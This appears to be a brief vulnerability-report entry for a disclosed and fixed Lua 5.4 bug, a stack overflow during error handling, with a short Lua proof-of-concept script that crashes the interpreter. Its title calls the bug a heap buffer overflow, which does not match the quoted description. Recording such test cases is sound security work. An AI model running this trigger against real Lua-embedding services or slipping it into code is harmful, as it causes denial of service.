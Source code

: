 # Heap Buffer Overflow in luaG_errormsg

## POC URL
https://www.lua.org/bugs.html#Lua-stack%20overflow%20when%20C%20stack%20overflows%20while%20handling%20an%20error:~:text=Lua%2Dstack%20overflow%20when%20C%20stack%20overflows%20while%20handling%20an%20error

## Run Command
Lua-stack overflow when C stack overflows while handling an error.
reported by Jinwei Dong on 13 May 2022. existed since 5.4.2. fixed in github.
Example:

print(
    xpcall((0),
        function(...)
            local f
            if d[print(print(print(print(t[...]))))] then
            end
        end
    )
)